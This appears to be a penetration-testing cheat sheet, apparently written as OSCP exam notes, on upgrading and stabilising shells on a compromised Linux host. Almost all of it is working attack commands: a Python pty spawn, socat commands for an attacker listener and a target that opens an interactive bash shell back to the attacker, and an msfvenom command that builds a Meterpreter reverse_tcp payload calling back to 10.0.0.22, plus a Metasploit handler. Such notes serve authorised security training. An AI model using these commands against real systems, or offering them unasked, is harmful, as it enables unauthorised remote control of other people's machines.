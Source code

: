 # Python

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

# Socat

Static binary:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

On attacker:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:7777
```

On target:
```bash
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:7777
```

# Meterpreter

NOT OSCP!

Upgrade a system shell to meterpreter:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.0.22 LPORT=7777 -f elf > revshell.bin
```

Setup listener: 
```msfconsole
use exploit/multi/handler
```